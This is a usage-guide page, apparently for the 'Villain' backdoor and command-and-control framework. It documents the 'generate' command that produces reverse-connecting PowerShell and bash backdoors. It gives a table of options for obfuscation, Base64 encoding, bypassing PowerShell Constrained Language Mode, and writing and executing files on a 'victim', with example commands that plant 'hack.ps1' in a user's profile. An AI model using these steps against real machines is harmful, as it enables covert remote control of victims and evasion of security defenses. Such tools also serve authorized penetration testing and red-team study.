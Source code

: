 # Usage Guide
## Table of contents
1. [Generate Backdoor Payloads](Generate-Backdoor-Payloads)
2. 


## Generate Backdoor Payloads
Use the "generate" prompt command to generate backdoor payloads for Windows or Linux machines. 

```
generate os=windows lhost=<IP or IFACE> [ exec_outfile=<REMOTE PATH> domain=<DOMAIN>] [ obfuscate encode constraint_mode ]
```

The backdoors are designed to start as new background processes. Currently supported types of backdoors:  
 - for Windows: Powershell 
 - for Linux: bash

#### Available arguments for the "generate" prompt command:
| Argument          | Required | Supported OS | Requires Input Val | Description |
|:-----------------:|:-------:|:-------------:|:------------------:|------------------------|
| os                | True    | All           | Yes                | The OS type of the backdoor. |
| lhost             | True    | N/A           | Yes                | Your local IP or Interface. |
| domain            | Depends | N/A           | Yes                | If you have provided trusted cert and priv_key files to start Villain with SSL, you can provide domain instead of lhost. |
| obfuscate         | False   | Windows       | No                 | Auto-obfuscate the generated payload. This aims to assist you, not always do the job for you. |
| encode            | False   | Windows       | No                 | Base64 encode the generated payload. |
| exec_outfile      | False   | Windows       | Yes                | Provide a file path on the victim to write & execute commands from (instead of using IEX) |
| constraint_mode   | False   | Windows       | No                 | Make the generated payload work on PowerShell Constraint Language Mode. By using this option you sacrifice a bit of the decoding clarity of your shell. |

#### Examples:
```
# For Windows:
Villain > generate os=windows lhost=eth0 obfuscate
Villain > generate os=windows lhost=192.168.12.36 exec_outfile="C:\Users\\\$env:USERNAME\.local\hack.ps1" encode

# For Linux:
Villain > generate os=linux lhost=192.168.12.62
```
